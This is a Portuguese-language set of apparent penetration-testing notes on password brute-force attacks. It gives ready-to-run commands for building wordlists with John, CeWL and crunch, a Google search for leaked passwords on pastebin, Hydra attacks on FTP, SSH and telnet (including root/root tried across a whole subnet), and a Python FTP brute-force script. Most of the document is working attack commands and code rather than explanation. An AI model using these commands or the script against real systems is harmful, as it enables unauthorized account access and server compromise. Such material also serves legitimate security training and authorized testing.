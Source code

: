 ##   Brute Force: Ataques em senhas

**Ataques de Força Bruta**

- Se o sistema não te bloqueia depois de 3 tentativas erradas ele provavelmente permite ataque de força bruta
- Se ele te bloquei mais volta a te permitir tentativas depos de certo tempo tambem é possivel setar o time para o numero de tentativas.
- Podemos analisar tbm caracteristicas do alvo e montar um wordlist com base no alvo
- Podemos tentar senhas default
- Pode ser tambem utilizado wordlists populares.

## Wordlists

**Word Lists Kali**

- usr/share/wordlists
- usr/share/seclists

Comando utilizado para buscar um termo dentro de varias wordlists

`grep -r "termo_pesquisado" *`

Buscando padrões de senha atraves do Google

site:pastebin.com "alvo_pesquisado"

Wordlist Longato

https://github.com/ricardolongatto/loncrack/blob/master/wl.txt




## Gerando mutação em wordlist

- Primeiro crie um lista com possiveis senhas utilizadas pelo alvo
- Depois execute o comando abaixo para fazer a mudação usando o John
- `john --wordlist=wl.txt --rules --stdout > wl_mutacao.txt`

Caso queira acresentar algum tipo de modificação para insereir na mutação, você pode alterar algumas configurações no john

- Acesse: /etc/john/john.conf
- Localize: List Rules Wordlist




## Gerando wordlists personalizadas

**CEWL**

Gerando lista de palavras com base no site

`cewl www.site.com -m 7 -w palavras`

**CRUNCH**

- % Digitos
- ^ Caracteres Especiais
- @ Caracteres Minúsculos
- , Caracteres Maiúsculos

Gerando lista com um padrão especifico

`crunch 10 10 -t palavra^^%% -o wordlist `




## Key Space Brute Force

Exemplo 01

`crunch 4 4 0123456789 -o pin `

Exemplo 02

`crunch 4 4 -f charset.lst mixalpha -o pin `




## Brute force com Hydra

Exemplo

`hydra -v -L users.txt -P senhas.txt 192.168.0.1 ftp`




## Reverse Brute force

*Obs: Realiza o atque de força bruta no login e não na senha*

Exemplo

`hydra -v -L users.txt -p admin 192.168.0.1 ssh`




## Low Hanging Fruit

*Obs: Buscar os pontos mais fracos e fáceis (Ex: credenciais default)*

Exemplo

`hydra -v -l root -p root -M targets ssh`

Exemplo

`hydra -v -l root -p root -M 192.168.0.0/24 ssh`




## Dicas Extras

`man hydra`

Exemplo

`hydra -v -L users.txt -p senhas.txt 192.168.0.1 telnet -t 1 -W 5`




## Construindo sua própria ferramenta

**Brute force ftp em python**

```
#!/usr/bin/python
import socket, sys,re

if len(sys.argv) != 3:
	print "Modo de uso: python lonftp.py 192.168.0.1 usuario"
	sys.exit()

target = sys.argv[1]
usuario = sys.argv[2]

f = open ('wordlist.txt')
for palavra in f.readlines():

	print "Realizando brute force FTP: %s:%s"%(usuario,palavra)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,21))
	s.recv(1024)

	s.send("USER "+usuario+"\r\n")
	s.recv(1024)
	s.send("PASS "+palavra+"\r\n")
	resposta = s.recv(1024)
	s.send("QUIT\r\n")

	if re.search('230', resposta):
		print "[+] Senha encontrada --->",palavra
		break
```
